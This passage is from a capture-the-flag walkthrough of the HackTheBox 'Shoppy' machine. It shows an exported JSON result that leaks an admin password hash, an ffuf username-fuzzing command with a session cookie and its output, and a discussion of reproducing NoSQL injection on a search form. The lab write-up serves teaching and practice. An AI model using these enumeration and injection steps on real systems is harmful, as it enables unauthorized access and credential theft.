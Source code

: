 
And as result we have an export link:

http://shoppy.htb/exports/export-search.json

Which returns the following result for the user we have looked up:


```json
[
    {
        "username": "admin",
        "_id": "62db0e93d6d6a999a66ee67a",
        "password": "23c6877d9e2b564ef8b32c3a23de27b2"
    }
]
```

Fuzzing for usernames we found "admin" and "josh":

```bash
ffuf -u "http://shoppy.htb/admin/search-users?username=FUZZ" -w /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -b "connect.sid=s%3AxNlN6lb5qvPB_xjNYGmKkpFWyFcyXEhq.4g5nAQYvynaU5UrmxKpW%2FKMpNlqaJusUCYT99IZVsJg" -fs 2561 -t 3

admin                   [Status: 200, Size: 2720, Words: 716, Lines: 56, Duration: 71ms]
josh                    [Status: 200, Size: 2720, Words: 716, Lines: 56, Duration: 56ms]

```

Well... We just had NoSQLi in the login, it is posible to reproduce it on this form?
The behaviour on this website is strange, we make the request and it returns a link with no parameter, uuid or anything, but when downloading the report we just have the NoSQLi executed correctly. The refer header does not change the result, the query should be stored internally:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shoppy/2_2_search.png" width="90%"/>
</p>
